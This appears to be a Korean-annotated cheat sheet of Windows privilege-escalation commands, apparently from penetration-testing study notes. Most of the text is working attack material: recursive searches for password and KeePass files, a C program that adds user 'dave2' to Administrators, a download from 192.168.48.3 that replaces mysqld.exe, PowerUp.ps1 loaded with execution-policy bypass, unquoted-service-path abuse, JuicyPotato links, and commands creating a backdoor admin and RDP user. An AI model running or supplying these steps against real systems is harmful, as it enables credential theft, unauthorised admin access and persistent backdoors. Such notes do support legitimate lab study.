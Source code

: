 ```powershell
findstr /SIM /C:"pass" *.txt *.pdf *.xls *.xlsx *.doc *.docx *kdbx,*ini *.xml *.cfg *.config
```
- `/S`: 현재 디렉토리뿐 아니라 **하위 디렉토리까지 재귀적으로 검색**
- `/I`: **대소문자를 구분하지 않고** 검색
- `/M`: 문자열이 포함된 **파일 이름만 출력**

```bash
xampp
```
---
```powershell
Get-LocalUser

Get-LocalGroup

Get-LocalGroupMember adminteam
```
```powershell
systeminfo

ipconfig /all

route print

netstat -ano
```
```powershell
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
- 64비트 Windows에서 32비트 프로그램의 설치 목록을 레지스트리에서 조회합니다. 프로그램 이름(DisplayName)만 표시합니다.

Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
- 64비트 Windows에서 64비트 프로그램의 설치 목록을 레지스트리에서 조회합니다. 프로그램 이름(DisplayName)만 표시합니다.

Get-Process
```
```powershell
Get-ChildItem -Path C:\ `
 -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*kdbx,*ini `
 -File -Recurse -ErrorAction SilentlyContinue
```
```powershell
runas /user:backupadmin cmd
- 'backupadmin' 계정으로 명령 프롬프트(cmd)를 실행합니다. 해당 계정의 비밀번호 입력이 필요합니다.
```
```powershell
Get-History

(Get-PSReadlineOption).HistorySavePath
```
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
- 현재 실행 중인 Windows 서비스 목록을 조회합니다.

icacls "C:\xampp\apache\bin\httpd.exe"
- 지정된 파일(httpd.exe)의 접근 권한 목록을 표시하거나 수정합니다. 현재는 권한 확인 용도로 사용됩니다.
```
---
# Service Binary Hijacking
```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```
```powershell
iwr -uri http://192.168.48.3/adduser.exe -Outfile adduser.exe

move C:\xampp\mysql\bin\mysqld.exe mysqld.exe

move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe

net stop mysql

whoami /priv

shutdown /r /t 0
```
```powershell
iwr -uri http://192.168.48.3/PowerUp.ps1 -Outfile PowerUp.ps1

powershell -ep bypass

. .\PowerUp.ps1

Get-ModifiableServiceFile
- 서비스 실행 파일에 일반 사용자 쓰기 권한이 있는 경우를 찾아냄.
- 이 취약점은 악성 파일로 서비스 실행 파일을 교체하여 권한 상승(Privilege Escalation)이 가능하게 만듦.
```
---
# Unquoted Service Paths
```powershell
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
- WMIC를 사용하여 서비스 이름(`name`)과 실행 파일 경로(`pathname`)를 조회.
- C:\windows\\ 경로 제외한뒤 "가 포함된 경로 제외

Start-Service GammaService

Stop-Service GammaService

icacls "C:\Program Files\Enterprise Apps"
- 지정된 폴더(`C:\Program Files\Enterprise Apps`)의 ACL(Access Control List, 접근 제어 목록)을 표시.
- 해당 디렉터리에 대한 사용자·그룹별 권한(읽기, 쓰기, 실행 등)을 확인 가능.
- 권한이 잘못 설정된 경우 보안 취약점이 될 수 있음.
```
```powershell
#PowerUp.ps1
Get-UnquotedService

Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"

Restart-Service GammaService
```
---
# Scheduled Tasks
```powershell
schtasks /query /fo LIST /v
```
---
# Windows Privilege Escalation — Token Impersonation (SeImpersonatePrivilege)
- https://usersince99.medium.com/windows-privilege-escalation-token-impersonation-seimpersonateprivilege-364b61017070
- https://github.com/ohpe/juicy-potato `CLSID`
---
# Windows Add User Command
```powershell
#To create a user named api with a password of Dork123!
net user api Dork123! /add

#To add to the administrator and RDP groups
net localgroup Administrators api /add
net localgroup 'Remote Desktop Users' api /add
```
